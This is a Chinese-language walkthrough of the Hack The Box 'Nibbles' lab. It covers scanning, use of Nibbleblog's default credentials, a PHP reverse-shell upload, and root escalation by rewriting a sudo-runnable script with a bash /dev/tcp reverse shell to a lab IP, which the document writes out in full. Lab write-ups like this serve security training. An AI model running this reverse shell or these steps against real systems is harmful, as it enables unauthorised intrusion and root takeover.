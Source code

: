 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 nibbles/","tags":["打靶","靶场","hackthebox"]}
---
```



![image.png](https://s2.loli.net/2025/06/14/mT8KhDLfQ9REZlx.png)
[[思/htb Nibbles 靶场 思\|htb Nibbles 靶场 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/06/14/IbxPFeKqh9sSTgX.png)

发现有个 22 端口和 80 端口

## 80 端口信息收集
打开页面一开始，是使用 dirsearch 和 feroxbuster 扫描。但感觉不对劲，没有出货

只能在主页面找找，看一下源码。找到路径了
![image.png](https://s2.loli.net/2025/06/14/vIfHAyrXZB736ex.png)

![image.png](https://s2.loli.net/2025/06/14/6LwTt3mpxarqflg.png)

查看 readme 知道版本号

![image.png](https://s2.loli.net/2025/06/14/RxQpNoG568rqtyn.png)

## 漏洞利用
搜索 nibbleblog 4.0.3 找到一个可以利用的漏洞。
![image.png](https://s2.loli.net/2025/06/14/XJ6o7vwLy1Az35C.png)

但需要找到账户密码，只能继续寻找，又发现一个

![image.png](https://s2.loli.net/2025/06/14/euDX6WE9G25Qdip.png)

苦苦寻找找到一个文件里面有说账户名是 admin
![image.png](https://s2.loli.net/2025/06/14/3RnhfdcXzGOox5T.png)


用 hydra 爆破一下密码。试了很多遍都没有用。只能想办法利用 my images 上传图片的漏洞

但貌似也要登录进去。

看了 wp，说是用了默认密码 admin/nibbles

![image.png](https://s2.loli.net/2025/06/14/Y3lqjwiodIKQCk1.png)

在 my_image 上传一个 php 反弹 shell 文件

![image.png](https://s2.loli.net/2025/06/15/YqhTVLe2yEoCRIF.png)

在这个目录中会变成 image. jpg，点一下就能反弹成功

![image.png](https://s2.loli.net/2025/06/15/oqwAOnMb3SKVhGi.png)


![image.png](https://s2.loli.net/2025/06/15/63KHiwoY4rFCm5x.png)

## 提权
![image.png](https://s2.loli.net/2025/06/15/6pbiofWB5SkNcOG.png)

找到第一个 flag

![image.png](https://s2.loli.net/2025/06/15/bSBLPKh3voqzrG8.png)

发现这个脚本可以不用密码执行 root 权限

修改一下这个脚本，改成反弹 shell

```
魔改
cat > monitor.sh <<EOF
#!/bin/bash
0<&196;exec 196<>/dev/tcp/10.10.16.2/4242; sh <&196 >&196 2>&196
EOF
# 
```

![image.png](https://s2.loli.net/2025/06/15/rRxeflTiEJq8dAp.png)

![image.png](https://s2.loli.net/2025/06/15/blyju8h2LPFO7W4.png)

sudo 权限运行脚本，即可获得反弹 shell

![image.png](https://s2.loli.net/2025/06/15/uQtbUaoi75ZkMfx.png)
